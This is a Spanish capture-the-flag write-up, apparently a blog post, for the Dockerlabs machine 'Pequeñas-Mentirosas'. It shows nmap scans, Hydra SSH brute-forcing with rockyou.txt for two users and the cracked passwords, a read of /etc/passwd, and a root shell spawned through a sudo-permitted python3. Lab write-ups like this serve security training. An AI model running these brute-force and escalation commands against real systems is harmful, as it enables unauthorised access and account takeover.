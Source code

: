 ```yaml
---
layout: post
title: Pequeñas-Mentirosas
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Pequeñasmentirosas.png
thumbnail-img: /assets/img/Pequeñasmentirosas.png
share-img: /assets/img/Pequeñasmentirosas.png
author: Elmili72
---
```

![Pequeñasmentirosas](https://github.com/user-attachments/assets/636ddab7-d953-489d-a335-bb77dc13674b)

## 1. Escaneo general de puertos

Para empezar como siempre realizaremos un escaneo de todos los puertos para ver los que están abiertos.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Una vez tenemos los puertos abiertos realizamos un escaneo de estos puertos y ver que servicios y en que version corren en ellos. En este caso están corriendo los puertos 22(SSH) y 80(HTTP).

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 3. Reconocimiento de servicio web

A la hora de realizar el reconocimiento del servicio web o IIS (Information Internet Service), vemos solo un texto sin más información que nos da una pista.

![Pasted image 20250518133639](https://github.com/user-attachments/assets/63f76b7d-886a-4da4-a8f4-febb934e32ff)

Realizando un escaneo de subdirectorios y Fuzzing de la página no nos aparece información útil. Por lo que tendremos que suponer que *A* es un usuario del servicio *SSH*.

## 4. Intrusión

Comprobamos nuestras sospechas realizando fuerza bruta con *HYDRA* y logramos la contraseña para conseguir nuestra intrusión por *SSH* y extraer más información y ver si podemos seguir con la escalada de privilegios (no es el caso).

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-18 13:38:22
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
```

![Pasted image 20250518133947](https://github.com/user-attachments/assets/518a0587-d37f-4e79-a44f-43a3e2ea8e38)

Lo primero que he hecho al no ver archivos interesantes de primeras y ver que no nos permite realizar las escalda desde este usuario ha sido comprobar si hay más usuarios. Leemos el archivo /etc/passwd y vemos que hay otro usuario más.

```bash
a@347c2e8e7be8:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Vemos el usuario *spencer*, para el cual, después de haber comprobado que no se puede hacer pivoting de otra manera volveremos a utilizar *HYDRA* para conseguir la contraseña por *SSH*.

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-18 13:42:17
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: spencer   password: password1
1 of 1 target successfully completed, 1 valid password found
```

![Pasted image 20250518134335](https://github.com/user-attachments/assets/43ffeb19-f0ca-4995-a7e4-e43a9f08bb77)

## 5. Escalada de privilegios

Ahora si que si, nuestro momento favorito :D. Comprobamos si hay podemos realizr la escalada explotando algún binario y efectivamente tenemos */usr/bin/python3*.

```bash
spencer@347c2e8e7be8:~$ sudo -l
Matching Defaults entries for spencer on 347c2e8e7be8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 347c2e8e7be8:
    (ALL) NOPASSWD: /usr/bin/python3
```

En estos casos como siempre vamos a nuestro mejor amigo *GTFOBins* (si no sabes el script de python) y nos generamos una bash como root explotando ese binario.

```bash
spencer@347c2e8e7be8:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
root@347c2e8e7be8:/home/spencer# whoami
root
root@347c2e8e7be8:/home/spencer# id
uid=0(root) gid=0(root) groups=0(root)
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!

